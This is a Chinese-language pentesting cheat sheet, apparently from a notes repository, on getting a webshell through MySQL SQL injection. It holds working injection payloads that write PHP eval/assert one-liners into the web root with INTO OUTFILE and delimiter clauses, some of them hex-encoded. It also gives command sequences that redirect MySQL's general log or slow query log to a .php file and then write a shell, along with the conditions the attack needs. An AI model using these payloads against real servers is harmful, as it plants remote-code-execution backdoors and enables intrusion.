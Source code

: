 #### 利用分隔符写入

```
?id=1 into outfile 'D:/WWW/evil.php' fields terminated by '<?php assert($_POST["cmd"]);?>'

?id=1 into outfile 'D:/WWW/evil.php' lines terminated by '<?php phpinfo() ?>'--+

?id=1 LIMIT 0,1 INTO OUTFILE 'D:/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --+
```

```
?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#

?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#

?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#

?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
```

#### 利用日志写入

新版本的MySQL设置了导出文件的路径，很难在获取Webshell过程中去修改配置文件，无法通过使用select into outfile来写入一句话。这时，我们可以通过修改MySQL的log文件来获取Webshell。

利用条件：

- 对web目录有写权限
- GPC关闭(GPC:是否对单引号转义)
- 有绝对路径(读文件可以不用，写文件需要)
- 需要能执行多行SQL语句

```
show variables like '%general%';            	 # 查看配置

set global general_log = on;              		 # 开启general log模式,将所有到达MySQL Server的SQL语句记录下来。

set global general_log_file = 'D:/WWW/evil.php'; # 设置日志目录为shell地址

select '<?php eval($_GET[g]);?>'             	 # 写入shell

set global general_log=off;                  	 # 关闭general log模式
```

在高版本的mysql中默认为NULL，就是不让导入和导出

解决办法：

在Windows下可在my.ini的[mysqld]里面，添加secure_file_priv

在linux下可在/etc/my.cnf的[mysqld]里面，添加secure_file_priv

使用慢查询日志绕过此限制

```
show variables like '%slow_query_log%';			#查看慢查询日志开启情况

set global slow_query_log=1						#开启慢查询日志

set global slow_query_log_file='D:/phpStudy/WWW/evil.php;    #修改日志文件存储的绝对路径

'<?php @eval($_POST[1]);?>' or sleep(11);		#写入shell

show global variables like '%long_query_time%'; #使用慢查询日志时，只有当查询时间超过系统时间(默认为10秒)时才会记录在日志中，使用如下语句可查看系统时间
```
